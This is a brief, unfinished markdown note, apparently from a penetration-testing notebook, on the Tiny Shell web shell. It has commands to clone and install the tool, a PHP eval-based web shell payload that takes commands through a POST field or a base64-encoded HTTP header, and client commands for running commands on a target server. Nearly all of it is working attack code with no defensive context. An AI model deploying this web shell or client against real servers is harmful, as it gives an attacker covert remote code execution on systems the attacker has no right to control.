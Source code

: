 
>[!info]
>This note is still in development.
### Overview
---
- TBA

### General Usage
---

**Installation**
```shell
# Download Tiny Shell and dependencies
git clone https://github.com/threatexpress/tinyshell
cd tinyshell
pip install docopt
pip install requests
```

**Payload**
```php
# Payload
<?php @eval(<insert_here>);?>
<!-- Unencoded Post:		 $_POST['password'] -->
<!-- Base64 Encoded Post:	 base64_decode($_POST['token']) -->
<!-- Base64 Encoded Header:  base64_decode($_SERVER['HTTP_PSESSION']) -->
```

**Usage**
```shell
# Base64 Encoded Post
python2 tinyshell.py --url=http://<ip_addr>/<payload_file> --language=php --password=token --mode=base64_post

# Base64 Encoded Header
python2 tinyshell.py --url=http://<ip_addr>/<payload_file> --language=php --password=psession --mode=base64_header
```